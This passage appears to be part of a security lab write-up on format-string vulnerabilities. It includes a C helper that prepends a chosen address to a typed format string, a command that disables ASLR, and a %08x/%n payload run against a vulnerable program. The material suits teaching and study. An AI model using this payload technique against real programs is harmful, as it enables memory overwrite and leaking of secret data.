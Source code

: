 How to let `scanf` accept an arbitrary number?
Usually, `scanf` is going to pause for you to type inputs. Sometimes, you want the program to take a number 0x05 (not the character '5'). Unfortunately, when you type '5' at the input, `scanf` actually takes in the ASCII value of '5', which is 0x35, rather than 0x05. The challenge is that in ASCII, 0x05 is not a typable character, so there is no way we can type in this value. One way to solve this problem is to use a file. We can easily write a C program that stores 0x05 (again, not '5') to a file (let us call it `mystring`), then we can run the vulnerable program (let us call it `a.out`) with its input being redirected to `mystring`; namely, we run "`a.out < mystring`". This way, `scanf` will take its input from the file `mystring`, instead of from the keyboard.

You need to pay attention to some special numbers, such as 0x0A (newline), 0x0C (form feed), 0x0D (return), and 0x20 (space). `scanf` considers them as separator, and will stop reading anything after these special characters if we have only one "`%s`" in `scanf`. If one of these special numbers are in the address, you have to find ways to get around this. To simplify your task, if you are unlucky and the secret’s address happen to have those special numbers in it, we allow you to add another `malloc` statement before you allocate memory for
`secret[2]`. This extra `malloc` can cause the address of secret values to change. If you give the `malloc` an appropriate value, you can create a "lucky" situation, where the addresses of secret do not contain those special numbers.

The following program writes a format string into a file called `mystring`. The first four bytes consist of an arbitrary number that you want to put in this format string, followed by the rest of format string that you typed in from your keyboard.
```c
// write_string.c
#include<stdio.h>
#include<string.h>
#include<sys/stat.h>
#include<fcntl.h>

int main()
{
	char buf[1000];
	int fp, size;
	unsigned int *address;

	// Putting any number you like at the beginning of the format string
	address = (unsigned int *) buf;
	*address = 0x804b01c;

	// Getting the rest of the format string
	scanf("%s", buf+4);
	size = strlen(buf+4) + 4;
	printf("The string length is %d\n", size);

	// Writing buf to "mystring"
	fp = open("mystring", O_RDWR | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
	if(fp != -1) {
		write(fp, buf, size);
		close(fp);
	} else {
		printf("Open failed!\n");
	}
}
```
```sh
root@ubuntu:/home/seed# sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
root@ubuntu:/home/seed# ./write_string 
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%n
The string length is 46
root@ubuntu:/home/seed# ./vul_prog < mystring 
The variable secret's address is 0xbffff684 (on stack)
The variable secret's value is 0x 804b008 (on heap)
secret[0]'s address is 0x 804b008 (on heap)
```